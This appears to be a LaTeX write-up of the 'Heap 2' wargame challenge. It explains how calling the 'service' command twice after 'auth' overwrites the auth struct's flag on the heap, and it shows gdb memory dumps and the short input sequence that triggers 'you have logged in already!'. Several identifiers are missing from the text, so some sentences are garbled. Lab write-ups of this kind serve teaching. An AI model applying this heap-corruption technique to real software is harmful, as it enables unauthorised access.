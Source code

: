 
\begin{center}\begin{LARGE}Heap 2\end{LARGE}\end{center}
 
\subsection*{Problem}

We are told that when we see the message  then
the exploit is complete. Looking at the source code, we see that we need to
modify  to be of a non-zero value.

\subsection*{Idea and Attack process}

We first realize that if we call  without declaring  the
program will crash. We cannot find a way to exploit this crash, so we look into
what we can do after declaring . We see that allocation to 
has a strict check on the length of the input before allocation to .
This means that we are not able to overflow the data in the struct such that
we modify the int component of the struct.

We see , called for service. Through checking the documentation,
we can see that the function allocates new memory on the heap and copies the
string into newly allocated memory. We can verify this by first calling
 then followed by  and  to see
the effect and we can verify that it modifies the value in the address that contains
 if we call for service twice.

\begin{lstlisting}[language=bash]
x/15x 0x804c000
>>>0x804c000:      0x00000000      0x00000011      0x61616161      0x0000000a
>>>0x804c010:      0x00000000      0x00000011      0x0a616161      0x00000000
>>>0x804c020:      0x00000000      0x00000011      0x0a656565      0x00000000
>>>0x804c030:      0x00000000      0x00000fd1      0x00000000
\end{lstlisting}

We begin our exploit based on the idea above.

\begin{lstlisting}[language=bash]
./heap2
>>>[ auth = (nil), service = (nil) ]
>>>auth a
>>>[ auth = 0x804c008, service = (nil) ]
>>>service a
>>>[ auth = 0x804c008, service = 0x804c018 ]
>>>service a
>>>[ auth = 0x804c008, service = 0x804c028 ]
>>>login
>>>you have logged in already!  
\end{lstlisting}

